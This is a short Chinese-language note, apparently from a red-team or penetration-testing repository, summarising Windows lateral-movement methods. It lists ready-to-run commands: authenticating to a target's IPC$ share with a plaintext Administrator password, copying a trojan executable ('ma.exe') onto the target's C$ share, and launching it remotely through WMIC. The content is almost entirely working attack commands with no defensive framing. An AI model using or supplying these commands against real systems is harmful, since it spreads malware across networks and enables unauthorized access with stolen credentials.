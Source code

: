 ## 0x00 碰见的横向移动方法总结（部分，慢慢更新）

    主机开启139和445端口，IPC移动  
    shell net use \\\\192.168.10.23\\ipc$ "Psft24680!!@@62##" /user:"Administrator"  
    
    在本地传个马，copy过去    
    shell copy C:\\Windows\\Temp\\ma.exe \\\\192.168.10.23\\c$\\Windows\\Temp\\ma.exe
      
    VMIC远程执行 
    shell wmic /node:192.168.10.23 /user:Administrator /password:Psft24680!!@@62## process call create "cmd.exe /c C:\\Windows\\Temp\\ma.exe"
 
